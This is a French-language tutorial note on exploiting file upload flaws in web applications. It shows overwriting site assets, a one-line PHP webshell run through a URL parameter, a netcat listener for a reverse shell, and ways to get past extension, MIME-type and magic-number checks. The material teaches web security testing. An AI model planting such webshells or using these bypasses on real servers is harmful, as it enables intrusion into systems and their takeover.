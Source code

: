 
Après avoir [analyser toutes les routes du sites](Decouvertes_du_contenu.md), on a maintenant une idée d'**où sont stocké les fichiers** que l'on upload.

## __Overwriting Files__

Si le fichier que nous uploadons sera situé au même endroit que les assets du site, nous pouvons écraser un ancien fichier.

![[overwriting1.png]]

On voit que le nom du fichier est *spaniel.jpg*, on peut donc renomer un fichier spaniel.jpg et celui-ci écrasera l'ancien fichier.

![[overwriting2.png]]


## __Remote Controle Execution__

Admettons que nous avons trouvé que nos images sont stocké dans le dossier *uploads/*, on peut se rendre dans ce dossier et nous verrons apparaitre notre image.

![[webshell1.png]]

### Webshell

On peut maintenant essayer d'upload un **executeur de commande**, pour ce faire nous allons créer un fichier PHP contenant ce code :

```php
<?php  
    echo system($_GET["cmd"]); // affiche le resultat de la commande passé en paramètre  
?>
```

Maintenant si nous nous rendons sur notre fichier, nous pouvons mettre notre commande dans l'url
**`webshell.php?cmd=id;whoami;ls`**

![[webshell2.png]]


### Reverse shell

Pour en savoir plus sur les reverse shells, rendez vous dans **[[Reverse_Shell]]**.

On peut donc upload notre reverse shell. Attention **notre reverse shell doit être dans le même language que le serveur web**. On peut le connaitre grâce à [Wappalyzer](https://www.wappalyzer.com/), ou avec la ligne **`x-powered-by`** en interceptant une réponse.

Ensuite il faut qu'on **démarre un serveur Netcat** :

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Puis lorsque nous allons nous rendre là où est sauvegardé notre fichier, notre reverse shell aura démarré.


## __Filtering__

Il y a principalement 3 manière de filtrer les fichiers entrant.

### Extension validation

Un code de validation de l'extension pourrai ressembler à celà :

```javascript
let extension = fileName.split(".")[1]; // regarde la 2e partie du nom du fichier

if(extension != "jpg" && extension != "jpeg"){ // vérifie s'il n'est pas en .jpeg
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on doit tout simplement **changer l'extension** de notre fichier et mettant par exemple  **`shell.jpg.php`**.


On peut aussi avoir un autre type de filtrage ressemblant à celà :

```javascript
let decoupage = fileName.split("."); // decoupe le nom du fichier avec les .
let extension = decoupage[decoupage.length - 1]; // recupere la derniere partie du nom

if(extension == "php"){ // vérifie s'il est en .php
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on peut remplacer l'extension **`.php`** par d'[autres extensions](https://en.wikipedia.org/wiki/PHP) pouvant exécuter du PHP. Par exemple : *.phtml*, *.phar* ou encore *.php5*

### MIME Validation

Dans les requêtes HTTP, il y a un attribut qui qualifie le **type de fichier envoyé**, on l'appelle **MIME** (Multipurpose Internet Mail Extension).

Si l'on intercepte une requête avec [burpsuite](https://portswigger.net/burp/communitydownload) on obtiendra quelque chose comme ça :

![[MIME_validation.png]]

On peut voir la ligne **`Content-Type: image/jpeg`** qui veut dire que le document que nous essayons d'envoyer est une image en jpeg.

Pour notre shell, la ligne sera **`Content-Type: application/php`**, on doit donc la modifier pour qu'elle soit perçu comme une image.


### Magic-Number

Les fichiers sont encodé en **ASCII** et chaque type de fichier a une **signature**, c'est une suite de caractère qui dit de quel catégorie ils font partie. On peut par exemple chercher dans une [liste de signature](https://en.wikipedia.org/wiki/List_of_file_signatures) quelle est la signature d'un fichier PNG.

Si on ouvre une image PNG avec **[hexeditor](https://www.kali.org/tools/ncurses-hexedit/)**, on obtiendra un résultat similaire à ça :

![[Magic_Number1.png]]

On peut voir que la signature est les 8 premiers octets du fichier, ici `89 50 4E 47 0D 0A 1A 0A`.

Pour un fichier **JPEG la signature fait 4 octets**, on doit donc **rajouter quatre caractère** au début de notre fichier php afin de les modifier.

![[Magic_Number2.png]]

![[Magic_Number3.png]]
La valeur de A est 41 en ASCII.

Une fois les octets modifiés, on se retrouve avec celà :

![[Magic_Number4.png]]

Voila, on peut maintenant upload notre fichier et il sera considéré comme un fichier JPEG.


